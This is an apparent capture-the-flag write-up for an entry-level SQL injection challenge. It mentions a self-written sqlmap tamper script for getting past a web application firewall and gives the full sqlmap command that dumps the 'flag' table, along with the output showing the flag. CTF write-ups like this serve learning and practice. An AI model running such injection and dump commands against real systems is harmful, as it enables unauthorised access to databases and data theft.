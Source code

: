 <h1>Okay it's a entry level sqli</h1>
the interesting part here is to write a sqlmap tamper by myself, it's stupid easy as well.

<h1>Solve:<h1>
<pre>
    <code>
    sqlmap -r header.txt --tamper ./nullbyte.py --technique=U -D news -T flag -C flag --dump --batch

    Database: news
    Table: flag
    [1 entry]
    +--------------------------+
    | flag                     |
    +--------------------------+
    | flag{W4f_bY_paSS_f0R_CI} |
    +--------------------------+
    </code>
</pre>
